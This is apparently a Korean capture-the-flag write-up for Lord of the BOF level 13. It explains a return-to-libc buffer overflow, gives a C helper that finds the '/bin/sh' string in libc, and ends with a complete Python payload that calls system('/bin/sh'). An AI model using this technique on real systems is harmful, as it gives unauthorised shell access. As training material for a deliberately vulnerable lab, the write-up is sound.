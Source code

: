 ```yaml
---
title:  "[LOB] level 13: darkknight >> bugbear "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-25 14:54:33

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 13

**darkknight / new attacker**

bugbear.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147378935-a979880e-d202-423c-adca-dc777f85713f.png)

매개변수 최소 1개 입력  
argv[1][47]이 \xbf여서는 안됨  

이번엔 지금까지 사용했던 스택영역의 주소들을 사용할 수 없다.  
(보통 스택영역은 0xbf로 시작하기때문에)  

코드에 적혀있는 것 처럼 RTL을 사용해야 하는데  
RTL 이란? Return To Libc 로, 메모리에 미리 적재 돼있는 공유 라이브러리를 이용해 바이너리에 원하는 함수가 없어도 공유라이브러리에서 원하는 함수를 사용할 수 있는 공격 기법이다.  
여태껏 system("/bin/sh")를 실행해주는 쉘코드를 삽입해서 사용했다면, RTL은 system("/bin/sh")를 직접 실행시키는 방법이다

페이로드 작성법은:
`python -c 'print "A"*44+system함수 주소+"BBBB"+"/bin/sh 주소"'

먼저 system함수의 주소 구하기  
![image](https://user-images.githubusercontent.com/69203345/147379278-5b27d6b6-f6a6-4771-9c0b-6bce603dee24.png)  
시스템 함수의 주소: 0x40058ae0

"/bin/sh"의 주소를 구하기 위해 코드작성
```c
#include <stdio.h>
#include <string.h>

int main(){
        long system = 0x40058ae0;
        while (memcmp((void*)system, "/bin/sh\x00", 8)){
                system++;
        }
        printf("/bin/sh: %x\n", system);

        return 0;

}
```

![image](https://user-images.githubusercontent.com/69203345/147387550-1b85b62b-2385-40c3-b844-bb77c3e89bd8.png)  
실행시 /bin/sh: 400fbff9 라고 나온다  

페이로드: 
> `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"B"*4+"\xf9\xbf\x0f\x40"'`

![image](https://user-images.githubusercontent.com/69203345/147387670-0b541588-72f1-4a9d-adfd-14210cca5683.png)

